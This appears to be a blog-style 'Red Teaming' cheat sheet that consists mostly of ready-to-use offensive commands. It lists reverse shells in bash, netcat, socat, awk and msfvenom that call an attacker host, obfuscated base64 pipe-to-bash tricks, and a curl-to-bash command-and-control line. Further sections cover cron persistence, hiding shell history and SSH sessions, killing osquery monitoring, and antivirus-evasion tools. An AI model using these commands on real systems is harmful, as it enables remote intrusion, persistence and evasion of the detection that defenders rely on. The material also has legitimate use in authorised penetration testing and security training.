 +++
title = "Red Teaming"
date = "2019-11-18"
categories = [
    "security",
]

+++
## Reverse Shell

### Reverse shell with bash

```bash
bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1
```

In case shell causes the application to suspended, run in new session with `setsid`:

```bash
setsid bash -i &>/dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1 &
```
By `msfvenom`:

```bash
bash -c '0<&42-;exec 42<>/dev/tcp/10.110.28.5/4747;sh <&42 >&42 2>&42'
```

Tricks and obfuscate:

```bash
echo COMMAND_BASE64 | base64 -d | bash
echo COMMAND_HEX | xxd -p -r | bash
{echo,COMMAND_BASE64}|{base64,-d}|bash
bash -c {echo,COMMAND_BASE64}|{base64,-d}|{bash,-i}
curl http://ATTACKER_IP:PORT | bash #kind of a C&C
```

### Background reverse shell with loop and crontab

```bash
while :; do REVERSE_SHELL_COMMAND; sleep 900; done &>/dev/null &
```

```bash
echo "*/15 * * * * REVERSE_SHELL_COMMAND" > .job; crontab .job
```

### Reverse shell with netcat & socat

```bash
nc -e /bin/bash -vn ATTACKER_IP ATTACKER_PORT
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:ATTACKER_IP:ATTACKER_PORT
```

Listener: `socat file:`tty`,raw,echo=0 tcp-listen:ATTACKER_PORT`

### Reverse shell with awk

```bash
awk 'BEGIN {s = "/inet/tcp/0/ATTACKER_IP/ATTACKER_PORT"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```

### Reverse shell with Windows Registry

https://github.com/8L4NK/evilreg

### Reverse shell with powershell, php, java, python, perl, ssh, etc... using msfvenom

Show list: `msfvenom -l`

Example show the options each payload: `msfvenom -p cmd/unix/reverse_ssh --list-options`

Some cheatsheet `msfvenom -p <tab_to_keyword>`:

```bash
msfvenom -p cmd/unix/reverse_bash LHOST=10.110.28.5
msfvenom -p cmd/unix/reverse_ssh LHOST=10.110.28.5
msfvenom -p windows/powershell_reverse_tcp LHOST=10.110.28.5
msfvenom -p cmd/unix/reverse_perl LHOST=10.110.28.5 LPORT=4747
msfvenom -p cmd/unix/reverse_python LHOST=10.110.28.5 LPORT=4545 > shell.py
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.110.28.5 LPORT=7777 -f war > shell.war
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.110.28.5 LPORT=7777 -f dll > privesc.dll
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.110.28.5 LPORT=4545 -e php/base64 R > shell.php
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.110.28.5 LPORT=4545 -f asp > shell.asp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.110.28.5 LPORT=4545 -f raw > shell.jsp
#binary
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.110.28.5 LPORT=4747 -f elf > shell.elf
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.110.28.5 LPORT=4747 -f exe > shell.exe
msfvenom -p osx/x86/shell_reverse_tcp LHOST=10.110.28.5 LPORT=4747 -f macho > shell.macho
```

A power tool for reverse ssh: https://github.com/Fahrj/reverse-ssh

Other generator: https://www.revshells.com

### Reverse shell with Windows Registry

https://github.com/8L4NK/evilreg

### Spawning TTY Shell

```bash
python -c 'import pty; pty.spawn("/bin/sh")'
script -qc /bin/bash /dev/null
/bin/bash -i
perl —e 'exec "/bin/sh";'
```



## Bypass, Persistent and Post Exploit

### Hiding from Bash history

No bash history: `unset HISTFILE` or put a space into the head of command.

Re-load the history back to how it was when the session logged in: `history -r`

### Hide SSH session - invisible SSH

```bash
ssh -o UserKnownHostsFile=/dev/null -T user@IP_ADDRESS "bash -i"
```

This will not add the user to the `/var/log/*` file and SSH session won't show up in `w` or `who` command of logged in users. It will bypass `.profile` and `.bash_profile` as well. On client side, it will stop logging the host name to `~/.ssh/known_hosts`.

### Remove osquery (root required)

```bash
rm -rf /usr/local/sbin/osquery-extension.ext /usr/local/sbin/osqueryd
for pid in $(ps -aux | grep osquery | grep -v color=auto | awk '{print $2}'); do kill -9 $pid; done
```

### Reverse shell bypass AV with powershell, nim

A list of useful powershell scripts with 100% AV bypass ratio, tested on Windows 11 (At the time of publication): https://github.com/tihanyin/PSSW100AVB

Others: https://github.com/t3l3machus/hoaxshell

A magic tip with nim language https://github.com/dmknght/RevShellNim, https://github.com/Potato-Industries/nimrs

```bash
nim c -d:mingw --cpu:i386 reverseshell.nim
```

Do not submit the binary to virustotal. To test bypass AV: nodistribute.com, antiscan.me

